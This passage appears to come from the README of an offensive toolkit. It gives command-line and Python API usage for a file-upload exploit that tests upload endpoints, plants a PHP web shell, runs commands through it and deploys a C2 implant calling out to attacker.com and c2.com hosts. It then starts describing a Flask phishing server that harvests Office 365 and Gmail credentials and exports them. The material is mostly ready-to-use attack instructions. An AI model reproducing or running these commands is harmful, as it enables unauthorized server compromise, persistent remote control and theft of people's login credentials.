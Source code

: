 ```bash
# Test for vulnerability
python initial_access/file_upload.py http://target.com --endpoint /upload --test

# Upload PHP web shell
python initial_access/file_upload.py http://target.com --shell php

# Interact with uploaded shell
python initial_access/file_upload.py http://target.com --shell-url http://target.com/uploads/shell.php

# Execute single command
python initial_access/file_upload.py http://target.com --shell-url http://target.com/uploads/shell.php --cmd "whoami"

# Deploy C2 implant
python initial_access/file_upload.py http://target.com --c2 http://attacker.com:8443
```

**Python API:**

```python
from initial_access.file_upload import FileUploadExploit

exploit = FileUploadExploit('http://target.com')

# Test vulnerability
is_vuln, tech = exploit.test_upload('/upload', 'file')

# Upload web shell
shell_url = exploit.upload_shell('/upload', shell_type='php')

# Execute commands via shell
output = exploit.execute_shell_command(shell_url, 'whoami')

# Interactive shell
exploit.interactive_shell(shell_url)

# Deploy implant
exploit.deploy_implant('/upload', 'http://c2.com:8443')
```

### 6. Phishing Server (`initial_access/phishing_server.py`)

Flask-based phishing infrastructure with credential harvesting.

**Features:**
- Multiple phishing templates (Office 365, Gmail, Generic)
- Automatic credential capture
- IP and User-Agent logging
- Configurable redirection
- API endpoints for credential retrieval
- JSON/CSV export
